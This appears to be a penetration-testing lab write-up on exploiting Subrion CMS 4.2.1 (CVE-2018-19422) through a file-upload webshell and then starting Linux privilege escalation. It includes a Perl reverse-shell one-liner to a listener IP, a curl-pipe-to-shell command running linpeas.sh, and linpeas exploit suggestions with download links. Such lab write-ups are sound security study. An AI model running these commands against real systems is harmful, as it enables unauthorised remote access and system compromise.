 
# Exploitation
## CVE-2018-19422 - Subrion CMS 4.2.1 (Arbitrary File Upload)
Used exploit 49876.py with `admin:admin` credentials to achieve webshell, then established a reverse shell with Perl;
![[Cybersecurity-Resources/images/Pasted image 20241002200817.png]]
Perl reverse Shell
```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.198:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
Caught with NetCat Listener on 4444
![[Cybersecurity-Resources/images/Pasted image 20241002200950.png]]

---
# Privilege Escalation
## Local Enumeration
Attempted access to `/root` folder (permission denied), then downloaded & ran linpeas.sh
`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`
![[Cybersecurity-Resources/images/Pasted image 20241002201246.png]]
> - System info: Linux version 5.4.0-74-generic
> - OS: Ubuntu 20.04.2 LTS (focal)
> - Sudo v1.8.31
> - Exploit suggestions
> [+] [CVE-2021-4034] 	[CVE-2022-2586] nft_object UAF
>    Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
>    Exposure: probable
>    Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
>    Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
>    Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
> 
> [+] [CVE-2021-4034] PwnKit
>    Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
>    Exposure: probable
>    Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
>    Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
> 
> [+] [CVE-2021-3156] sudo Baron Samedit
>    Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
>    Exposure: probable
>    Tags: mint=19,[ ubuntu=18|20 ], debian=10
>    Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
> 
> [+] [CVE-2021-3156] sudo Baron Samedit 2
>    Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
>    Exposure: probable
>    Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
>    Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
> 
> [+] [CVE-2021-22555] Netfilter heap out-of-bounds write
>    Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
>    Exposure: probable
>    Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}